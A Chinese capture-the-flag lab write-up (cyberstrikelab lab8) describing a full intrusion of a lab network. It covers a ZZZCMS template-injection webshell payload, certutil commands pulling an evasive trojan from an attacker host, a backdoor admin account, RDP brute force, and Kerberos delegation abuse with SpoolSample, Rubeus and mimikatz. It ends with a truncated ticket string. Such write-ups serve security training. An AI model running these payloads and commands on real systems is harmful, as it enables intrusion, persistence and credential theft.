# cyberstrikelab lab8 wp-先知社区

> **来源**: https://xz.aliyun.com/news/18099  
> **文章ID**: 18099

---

## 信息收集

先看看fscan全端口扫描记录



存在一个cms网站去看看



去找找这个zzzcms的漏洞

## Zzzcms 1.61 后台远程命令执行漏洞

先弱口令 admin /admin123456 进入后台  
然后直接修改模版文件，在这里卡了很久一直想去文件上传擦

直接去本地模版管理找到search.html修改内容为以下内容



此时就可以看到phpinfo了，那我们改成一句话木马连接也可以



在改一下代码就可以连接了

参考： <https://xz.aliyun.com/news/4103>  
<https://zhuanlan.zhihu.com/p/58909740>

## 内网渗透

蚁剑连接不上去，所以就使用远程下载搭一下stowaway代理

这个代理工具能拿到一个shell面板也能上传文件,所以为了方便我写一个木马弹到cs上，需要注意的是这个环境存在杀毒软件



之后在命令行中执行以下两条命令去下载做好的免杀木马



成功上线，先利用土豆提个权限

### 土豆提权



然后添加一个用户3389上去关闭一波防火墙



直接给他关了，方便后续的扫描操作。

### 内网信息收集



当前这个主机貌似没看着其他的网卡，这个10.5.5.2是一个内网的网卡，扫描和外网结果差不多。那就去翻翻配置文件连接下数据库吧



还是没什么发现，去扫瞄下c段



发现一个c段开了3389端口，那么去爆破试试密码。



发现用户和密码为administrator admin@123456 登录之后可以拿到第二个flag，不过此时我们还没有域用户的权限，但是此时10.5.5.33这台主机已经是在域内中了，看看能否拿到这台主机的system权限。



### 域内信息收集

使用cs自带的svc-exe可以提权到system权限，然后收集下域内信息



可以发现cyberweb这台主机的机器用户是配置了非约束委派，下一步就是要想办法看看如何让域控访问我们控制的这台主机

## 非约束委派 + 打印机漏洞



导入成功



使用[mimikatz](https://github.com/gentilkiwi/mimikatz)导出Hash



之后打个pth就可以了



参考： <https://forum.butian.net/share/1591>

```
{if:assert($_request[phpinfo()])}phpinfo();{end if}
```

```
{if:assert($_POST[x])}xxx{end if}
```

```
certutil.exe -urlcache -split -f http://172.16.233.2/windows_x64_agent.exe test.exe
```

```
certutil.exe -urlcache -split -f http://172.16.233.2/main.txt main.txt

certutil.exe -urlcache -split -f http://172.16.233.2/RingQ.exe RingQ.exe
```

```
shell net user oceanzbz admin@123
shell net localgroup administrators oceanzbz /add
shell REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

```
proxychains4 hydra -l administrator -P pass.txt rdp://10.5.5.33 -Vv
```

```
# ADFind查询非约束机器账户
AdFind.exe -b "DC=cyberstrikelab,DC=com" -f "(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))" dn
```

```
# 使用Rubeus监听来自域控的票据
Rubeus.exe monitor /interval:2 /filteruser:DC$
```

```
强制回连，获得域控机器账户的TGT
shell SpoolSample.exe DC CYBERWEB
```

```
# rubeus导入票据
Rubeus.exe ptt /ticket:doIFtDCCBbCgAwIBBaEDAgEWooIErDCCBKhhggSkMIIEoKADAgEFoRQbEkNZQkVSU1RSSUtFTEFCLkNPTaInMCWgAwIBAqEeMBwbBmtyYnRndBsSQ1lCRVJTVFJJS0VMQUIuQ09No4IEWDCCBFSgAwIBEqEDAgECooIERgSCBELeAgo8gfc1sOmVFHxh23jlld/MeJN/NEYNWOVmXG7H6J6jeQH/ux0qR9NhB8XEHpISi/k+m+d3MgVV9I97HPHPGpxMwwPwn283E5+JQBdhYK/Vq7eQhQScpw0+uojOX8Clvw/YjIv8V1G1Kqxyj+EbWm07KVjefQHMeuclOII27ZclrWuVxNQ1GI2GV+nLVrRMgGlKmh9FTnLKacg3lGZutWuUS1pU3OWc7Q0wClL6MeczUq378IMB3G4Vv3cAR8mY/niULKswPfzVbe6oeuvAIOpHHV6qoB631NiF48twHG78uZ+ExiVIU9p1juR7IL053H0LOSRTV/behPNz8c/mhcxCWDfXVEAn1gbibwUvrBSCiNP6hp234Qa4pbEB8PTlxXc0QYxQVF8VC+btIxx93APc+/W6wBzxPr65IIqlhlbV1NdUCIF2SGqliyHUdOIRF9llx52RaTsYhzX4D5Hsqoh8YLIs52q7o9gy6yyJi69qADD4jpmvC6exzl0l40qd+csY8vfb2Ojm5fwgNn1oDLWRxjPriEGQNSFIxBuDF4BD3lzWcQFbTsuBYl0a7NBXeFHFWwnDRoQrdO6UHSDcpJt0WRvo+8S+sr14PvTITr6BWeKafeBy/Ve+iovAFCZo7DbAUISpPxYdpIjUzIpfm7ZMLT015MGNYB16PhNvUL3tfavikHed87lgfvTs429bSOcYP1U1YnT8/z2TrIMuuKpvjyNq9cZmZeLsS9SnNCwiFartRSephd587X5ERqsg0ai/i87lWJCBCQ15a9LapH5vxYvnkHljhvT3/5Vo9RYfGiJbdEtxG1vR17LsGCV05ROpf8L0Fa0CdWXB84MSzXjoIySIRV9zAvvcsTfu+r6oTT7QL9ciG8FvaHY2Gtf32FlFOfVLdoy1B63d0nYoKoZmm09ImIFFjKV0871uhQ3po3nu1vVvJkiRHM7hVwhK9h9aHTtYahuig1z6oxqYVMsubnYlrUKIPKe6O/qTBSaJoH03cXnWYUxrObv5A5ekiIG6zuHsqmGaDXWZV/5SfB4DaztwJZHzvYwuCYsSR6IV2vWW4st9ONoWkzg08XXjvVoEqfqlpTs2WjxAPaK1kY8oIp7SHJ7DVovFnkf7puFHGbJ/wBCpdR61Pl1qj/ntuv1OVdRRb71DfTZHjmV4rXISZ3cjwAJTgKqlIUzzrkiTsmTrtk92z3eIfm9EE4NqkOJWmxd9sXhC58W4CVFnZXZ7